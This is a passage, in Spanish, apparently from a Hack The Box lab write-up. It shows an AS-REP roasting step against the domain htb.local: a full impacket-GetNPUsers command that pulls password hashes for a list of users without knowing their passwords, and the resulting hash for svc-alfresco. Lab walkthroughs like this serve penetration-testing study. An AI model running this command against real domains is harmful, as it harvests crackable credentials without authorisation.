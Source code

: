 ![8](Images/8.png)

Una vez tenemos un listado de usuarios válido podemos hacer uso de la técnica AsRepRoasting, incluso aunque no tengamos sus respectivas contraseñas.

``impacket-GetNPUsers -no-pass -usersfile realusers.txt htb.local/ -output hashes.asreproast ``

![9](Images/9.png)

-> Bingo. Tenemos el hash de svc-alfresco.
